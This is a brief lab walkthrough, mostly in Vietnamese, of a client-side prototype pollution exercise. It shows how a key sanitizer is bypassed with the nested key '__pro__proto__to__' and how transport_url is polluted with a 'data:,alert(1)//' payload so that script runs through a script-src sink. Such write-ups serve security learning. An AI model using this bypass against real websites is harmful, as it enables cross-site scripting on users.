## Client-side prototype pollution via flawed sanitization

1. Nhận thấy trong resource, ở searchLoggerFiltered.js có hàm `sanitizeKey()` sẽ filter các key như `__proto__`, `constructor`, `prototype`

![image](https://user-images.githubusercontent.com/80744099/231054720-4286a5f6-c8c9-4c88-8b78-2316281cccf0.png)

2. Bypass filter bằng payload 
- ```?__pro__proto__to__[testKey]=testValue```

![image](https://user-images.githubusercontent.com/80744099/231054812-7c5a2a99-da82-4363-9c2e-e310e7090e4d.png)

3. Detect sink 

```
let script = document.createElement('script');
script.src = config.transport_url;
document.body.appendChild(script);
```

4. Chèn payload ``?__pro__proto__to__[transport_url]=data:,alert(1)//``

![image](https://user-images.githubusercontent.com/80744099/231056568-4285182b-03c9-4833-b0d4-03f02839ed8e.png)
